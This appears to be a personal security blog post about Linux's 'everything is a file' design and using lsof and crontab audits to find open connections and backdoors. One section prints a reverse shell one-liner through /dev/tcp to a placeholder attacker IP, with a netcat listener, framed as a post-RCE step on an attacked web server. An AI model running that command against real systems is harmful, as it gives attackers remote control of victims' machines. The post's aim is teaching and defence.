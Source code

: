 +++
title = 'Quick Tech Tip: lsof'
date = 2025-04-21T16:16:41-05:00
draft = false
tags = ["QTT", "Gems"]
categories = ["CyberSecurity"]
+++

So here is a newsflash for all non-Linux people:

# EVERYTHING IN LINUX IS A FILE. LITERALLY EVERYTHING

## Microphones

Your devices like your camera and microphone are mounted at /dev. The ulility "arecord" from the alsa-utils uses this little trick to allow you to do stuff like open the microphone file and forward the data to other command line tools like mpv:

```
arecord -f cd - | mpv -
```

## Cameras
The same can be done with your camera, except it's ffmpeg that relies on the camera being a file:

```
ffmpeg -f v4l2 -i /dev/video0 -f mpegts - | mpv -
```

## FIFO Files

There are some files that act as queues for other programs to pick up data from other programs. They are called [FIFO or Pipe-Files](https://en.wikipedia.org/wiki/Named_pipe).  


## Data Production Files

There are devices that have specific functions like `zero`, `null`, and `random` that produce a specific data like zeros, nothing, or gobbledegook. 

## And so many more

Seriously... everything is a file in Linux and you can do all sorts of crazy stuff once you realize that all tools that work with the UNIX philosophy are supposed to be able to pipe data from one file to the next. But the most interesting of these is the network files.

# Networking files

One thing that only really hackers and Linux devs seem to be aware of is that the mechanism that Linux uses for setting up network connections (sockets) is through creating a socket file attached to the /dev/tcp directory. 

The following command is a standard bind shell command. Typically, you would use an unprivileged RCE (Like with a web shell) to run the following command on the web server you're attacking:

```
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

The above command spawns a bash shell and gives it to another machine at port 1337. The hacker will point that to their IP Address and make sure that there is a tool called netcat listening for it:


```
nc -nvlp 1337
```

# LSOF

So now that you know that everything in Linux is a file, you can appreciate the tool [LSOF, or "list open file"](https://www.man7.org/linux/man-pages/man8/lsof.8.html).

You should read this man page, because lsof can find all sorts of stuff. It can tell you which files are being used by which programs, it can tell you who is running what... but my favorite use of lsof is seeing what processes are talking to what servers:

```
sudo lsof -i
```

Run the command as sudo because you'll be able to see way more than the standard user. I typically use this instead of netstat or ps because it's far more human readable and detailed. It's like the command line equivalent of the game, Clue. 

"It was user A, in /usr/bin, with a tcp socket".

# Something we learned about lsof in XFR

There is a command called "who" or "w", that's designed to tell you who is logged into the machine you're on at the moment that you run it. 

We were using a zero-trust solution for logging into a certain box called Teleport, and we sometimes wanted to see who was ssh'ed in. We could have opened the GUI page for it and look at the audit logs, but my boss and I are Linux neckbeards, so we wanted to just stay on the box all day. 

The problem was that when you use "who", it didn't work. The reason comes down to how "who" checks in on the users. It was missing the mechanism that teleport was using, either because it came in through a seperate namespace, or PAM thing, or whatever. It just didn't show up for "who".

But it TOTALLY showed up for lsof. Every network connection needed a socket and every socket is a file, so we could run lsof -i and see every user on the box. It was glorious.

We also knew what each user was supposed to be running, so this method helped us see users doing shady network things (Like my weird sshuttle tomfoolery) very easily.

It was also really good for finding backdoors. Chances are if there was a backdoor in your server, lsof would tell you a user was connecting to a server / service that you didn't recognize.

side note: Another way to look for backdoors is running a script like this to check all the users' crontabs:

```
#!/bin/bash

# Output file for crontab dumps
output_file="all_crontabs.txt"

# Clear the output file if it exists
> "$output_file"

# Get a list of all users
users=$(cut -f1 -d: /etc/passwd)

# Loop through each user
for user in $users; do
    # Get the user's crontab
    crontab_output=$(crontab -u "$user" -l 2>/dev/null)

    # Check if the user has a crontab
    if [ $? -eq 0 ]; then
        echo "Crontab for user: $user" >> "$output_file"
        echo "$crontab_output" >> "$output_file"
        echo "------------------------" >> "$output_file"
    fi
done

echo "All crontabs have been dumped to $output_file."
```

# Fun Story:

When I was an apprentice at X-Force Red, one of the Linux machines wasn't locked properly, so my boss decided to teach us a lesson and installed 3 back doors. 

1. A unix socket bind shell.

2. A crontab back door.

3. cat'ted his ssh pub key into the authorized key file. 

At the time, I was a noob, so I wasn't sure how to find them... so I cheated and just took the infected machine offline. XD. That said, lsof would have found 2 of them. The third would have been caught by using a host-based IDS or even just an entr command.

# So What?

I admit, this tech tip was a bit more scattered than the others, but remember the following:

1. Everything in Linux is a file. *[Insert Annie meme here](https://www.youtube.com/watch?v=A_iAE2JIyEE)*

2. Every open file can be seen by lsof.

3. Network connections that escape other tools don't escape lsof.

4. Look for backdoors with lsof, looking at crontabs, and check your authorized keys files for ssh every once in a while. 
